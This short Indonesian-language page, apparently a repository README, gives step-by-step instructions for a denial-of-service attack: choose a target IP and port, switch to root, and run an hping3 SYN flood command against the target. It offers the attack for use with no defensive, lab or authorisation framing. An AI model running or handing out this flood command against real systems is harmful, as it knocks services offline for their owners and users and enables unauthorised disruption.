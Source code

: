 ## Langkah-langkah melakukan DoS (Denial of Service) menggunakan hping3 (linux)
* Tentukan ip target dan port yang akan dilakukan DoS
* Buka terminal dan masuk ke mode root
* Selanjutnya masukan perintah berikut untuk menjalankan SYN Flooding Attack, Cth:
```bash
hping3 -S --flood {ip_address}
```
